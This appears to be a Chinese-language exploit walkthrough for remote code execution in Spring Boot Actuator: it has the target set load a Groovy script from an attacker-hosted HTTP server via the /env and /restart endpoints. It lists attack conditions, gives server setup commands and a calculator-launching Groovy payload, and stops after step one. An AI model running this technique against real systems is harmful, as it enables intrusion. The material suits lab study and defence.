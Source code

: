 #### 漏洞分析：

 spring boot actuator rce via jolokia

 https://landgrey.me/blog/21/

#### 漏洞环境：

repository/springboot-restart-rce

正常访问：

```
http://127.0.0.1:9098/actuator/env


```

### 0x0A：restart logging.config groovy RCE

#### 利用条件：

*   可以 POST 请求目标网站的 `/env` 接口设置属性
    
*   可以 POST 请求目标网站的 `/restart` 接口重启应用
    
*   ⚠️
    
     目标可以请求攻击者的 HTTP 服务器（请求可出外网），否则 restart 会导致程序异常退出
    
*   ⚠️
    
     HTTP 服务器如果返回含有畸形 groovy 语法内容的文件，会导致程序异常退出
    
*   ⚠️
    
     环境中需要存在 groovy 依赖，否则会导致程序异常退出
    

#### 利用方法：

##### 步骤一：托管 groovy 文件

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）

```
# 使用 python 快速开启 http server

python2 -m SimpleHTTPServer 80
python3 -m http.server 80

```

在根目录放置以 `groovy` 结尾的 `example.groovy` 文件，内容为需要执行的 groovy 代码，比如：

```
Runtime.getRuntime().exec("open -a Calculator")


```
